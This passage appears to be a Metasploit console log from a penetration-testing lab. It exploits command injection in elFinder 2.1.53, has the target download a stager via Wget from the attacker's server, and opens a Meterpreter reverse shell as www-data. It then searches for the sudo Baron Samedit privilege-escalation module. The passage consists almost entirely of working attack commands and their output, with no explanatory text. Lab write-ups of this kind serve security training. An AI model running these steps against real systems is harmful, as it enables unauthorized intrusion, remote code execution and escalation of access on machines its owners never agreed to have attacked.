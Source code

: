```bash
Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set RHOSTS 10.129.105.220
RHOSTS => 10.129.105.220
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > run
[*] Started reverse TCP handler on 10.10.14.185:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.53
[*] Uploading file KQQHP.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive XMARuWh.zip
[+] Archive was successfully created!
[*] Using URL: http://10.10.14.185:8080/nFNGBu61
[*] Client 10.129.105.220 (Wget/1.20.3 (linux-gnu)) requested /nFNGBu61
[*] Sending payload to 10.129.105.220 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  50.91% done (56/110 bytes)
[*] Command Stager progress -  70.91% done (78/110 bytes)
[*] Sending stage (1017704 bytes) to 10.129.105.220
[+] Deleted KQQHP.txt
[+] Deleted XMARuWh.zip
[*] Meterpreter session 2 opened (10.10.14.185:4444 -> 10.129.105.220:49374) at 2025-01-28 14:03:13 +0100
[*] Command Stager progress -  82.73% done (91/110 bytes)
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > CTRL + Z
Background session 2? [y/N]  
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > sessions

Active sessions
===============

  Id  Name  Type                   Information                Connection
  --  ----  ----                   -----------                ----------
  2         meterpreter x86/linux  www-data @ 10.129.105.220  10.10.14.185:4444 -> 10.129.105.220:49374 (10.129.105.220)

msf6 exploit(linux/http/elfinder_archive_cmd_injection) > search sudo 

Matching Modules
================

   #   Name                                                                       Disclosure Date  Rank       Check  Description
   -   ----                                                                       ---------------  ----       -----  -----------
   60  exploit/linux/local/sudo_baron_samedit                                     2021-01-26       excellent  Yes    Sudo Heap-Based Buffer Overflow
   61    \_ target: Automatic                                                     .                .          .      .
```